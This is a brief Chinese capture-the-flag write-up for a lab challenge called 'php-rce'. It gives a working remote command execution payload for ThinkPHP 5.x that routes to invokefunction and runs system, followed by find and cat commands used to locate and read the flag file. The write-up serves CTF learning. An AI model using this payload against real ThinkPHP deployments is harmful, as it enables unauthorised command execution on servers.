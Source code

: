 **题名：**php-rce
**地址：**攻防世界web高手进阶区第三题

# 解法
本题设计ThinkPHP 5.X RCE（远程命令执行）漏洞。
payload形如：?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=要执行的命令。
类似于初级区的CE题，命令分别为
find / -name flag
然后cat /flag
至于这个payload有待于php水平的进一步提高去理解。